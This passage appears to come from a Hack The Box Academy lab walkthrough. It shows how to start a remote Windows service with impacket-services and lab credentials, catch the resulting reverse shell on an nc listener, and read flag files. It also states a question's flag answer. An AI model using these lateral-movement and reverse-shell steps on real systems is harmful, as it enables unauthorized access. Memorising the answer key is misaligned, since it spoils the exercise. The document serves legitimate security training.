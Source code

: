 Code: shell

```shell
impacket-services INLANEFREIGHT/helen:'RedRiot88'@172.20.0.52 start -name ALG
```

```shell-session
┌─[eu-academy-5]─[10.10.14.221]─[htb-ac-8414@htb-d4d4brjin5]─[~]
└──╼ [★]$ impacket-services INLANEFREIGHT/helen:'RedRiot88'@172.20.0.52 start -name ALG

Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Starting service ALG
```

Switching to the terminal tab of `netcat`, students will come to know that a reverse shell connection was established and can proceed to grab the `serviceflag.txt` flag located in the `C:\Flags\` directory:

Code: shell

```shell
type C:\Flags\serviceflag.txt
```

```shell-session
┌─[eu-academy-5]─[10.10.14.221]─[htb-ac-8414@htb-d4d4brjin5]─[~]
└──╼ [★]$ nc -nvlp 9001

listening on [any] 9001 ...
connect to [10.10.14.221] from (UNKNOWN) [10.129.229.244] 61403
Microsoft Windows [Version 10.0.17763.2628]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> type C:\Flags\serviceflag.txt
```

Answer: `Using_Services_For_LateralMovement`

## Server Message Block (SMB)

### Question 3

#### "Use any tool to get a shell on SRV02 and read the flag located at C:\Users\Administrator\Desktop\flag.txt"

Students will reuse the previously spawned target and reverse shell through the last question to grab the flag from the Administrator's desktop:

Code: shell

```shell
type C:\Users\Administrator\Desktop\flag.txt
```

```shell-session
C:\Windows\system32> type C:\Users\Administrator\Desktop\flag.txt
```

